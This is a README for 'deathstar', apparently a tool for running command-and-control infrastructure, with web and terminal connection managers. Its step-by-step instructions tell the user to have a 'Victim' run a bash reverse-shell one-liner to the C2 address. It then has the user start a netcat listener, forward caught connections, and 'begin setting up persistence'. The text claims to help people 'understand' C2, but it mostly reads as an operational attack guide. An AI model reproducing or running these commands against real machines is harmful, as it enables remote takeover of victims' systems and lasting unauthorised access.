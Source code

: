 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`Stardestroyer.py` is one option of calling into the C2 server.


![screen](https://github.com/user-attachments/assets/7de184fa-cd0b-4cbf-b701-9f505a77cb2a)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start C2
`python3 deathstar-web.py`

or 

`python3 deathstar-term.py`

# Open link in web browser

```firefox 127.0.0.1:5000```

# Have Victim connect to C2 
Linux / MacOS

`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.

